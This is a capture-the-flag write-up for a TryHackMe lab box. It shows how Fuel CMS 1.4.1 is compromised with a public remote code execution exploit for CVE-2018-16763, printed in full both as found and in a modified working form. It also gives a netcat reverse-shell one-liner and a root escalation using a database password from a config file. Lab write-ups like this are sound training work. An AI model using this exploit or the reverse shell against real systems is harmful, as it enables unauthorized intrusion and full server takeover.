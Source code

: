 # TryHackMe - Ignite

A new start-up has a few issues with their web server.

---

## Nmap results

Let's start off with nmap:

`nmap -sC -sV -T4 --max-rate 2500 <Box IP> -oN ignite`

![nmap](nmap.png)

`Port 80` seems to be the only port open to us.

---

## Website

Let's take a look at the website:

![website](website.png)

Looks like we'll be dealing with `Fuel CMS`. If we scroll down a bit, we can see that it gives us a direct link to login to the CMS:

![tatsit](thatsit.png)

The username and password are given to us as well.

>Username: `admin`
>Password: `admin`

---

## Exploit

Looking for an exploit on searchsploit yields an RCE for version 1.4.1.

![searchsploit](searchsploit.png)

We can get this file with `searchsploit -m <filename>`

Examining the exploit:

```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

There are a couple things we need to change here, the `url` variable should point to our target's Fuel CMS page. This one is optional, but you can remove the lines pertaining to burp unless you plan on tunneling information to burp. But if you don't want to, just remove the `proxy` variable.

__My example__

```python
import requests
import urllib

url = "<box IP>"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        exploit = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        r = requests.get(exploit)
        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)
        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])
```

Running the exploit:

![rce](RCE.png)

You just have to make sure you execute your commands with quotes around them. So now we have a RCE running, lets grab a reverse shell. My go to one is netcat:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

Fill in your tun0 IP accordingly. And setup your listener with the port you chose.

![user](user.png)

Your user flag is in `/home/www-data`.

---

## Root Access

I went and got `LinEmun` and `linPEAS` onto the system, LinEnum didn't show much.

linPEAS, under

`[+] Interesting writable files owned by me or writable by everyone (not in Home)`.

There was a `database.php`, full path `/var/www/html/fuel/application/config/database.php`. You can also go back to the Fuel CMS page and see this:

![database](database.png)

__Examining `database.php`__

```php
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
        @include(TESTER_PATH.'config/tester_database'.EXT);
}
```

We can see that we have the username root and a password:

>Username: `root`
>Password: `mememe`

So now let's try to change users to root and use this password.

![root](root.png)

Great! Our root flag is in `/root`.